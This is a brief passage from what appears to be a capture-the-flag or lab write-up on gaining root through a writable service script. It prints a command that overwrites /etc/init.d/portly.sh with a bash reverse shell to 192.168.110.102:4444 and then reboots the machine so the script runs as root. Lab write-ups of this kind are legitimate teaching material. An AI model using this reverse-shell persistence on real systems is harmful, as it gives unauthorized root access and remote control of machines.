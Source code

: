 	![](images/Pasted%20image%2020220120064211.png)

## Root (Service) 
1. Service script is writable
	![](images/Pasted%20image%2020220120061500.png)
2. Overwrite `portly.sh`
	```
	printf '#!/bin/bash\n\n/bin/bash -i >& /dev/tcp/192.168.110.102/4444 0>&1\n' > /etc/init.d/portly.sh
	```
	![](images/Pasted%20image%2020220120062049.png)
3. Reboot 
	![](images/Pasted%20image%2020220120062215.png)
